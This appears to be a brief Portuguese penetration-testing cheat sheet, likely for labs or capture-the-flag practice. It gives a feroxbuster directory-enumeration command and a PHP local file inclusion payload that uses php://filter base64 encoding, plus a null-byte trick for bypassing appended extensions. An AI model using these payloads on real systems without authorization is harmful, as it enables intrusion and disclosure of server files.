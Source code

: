 Enumeração de diretórios e arquivos:  
`feroxbuster -u http://$RHOST/ -A -r -x txt -q -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -C 404 --dont-scan 'manual'`  

## PHP  
Erro de include em PHP, faça o teste com filter para converter o arquivo em Base64:  
`http://$RHOST/?param=php://filter/read=convert.base64-encode/resource=[LFI]`  
Para ignorar a extensão no final da URL caso a mesma seja adicionada automaticamente, utilize Null Byte:  
`%00`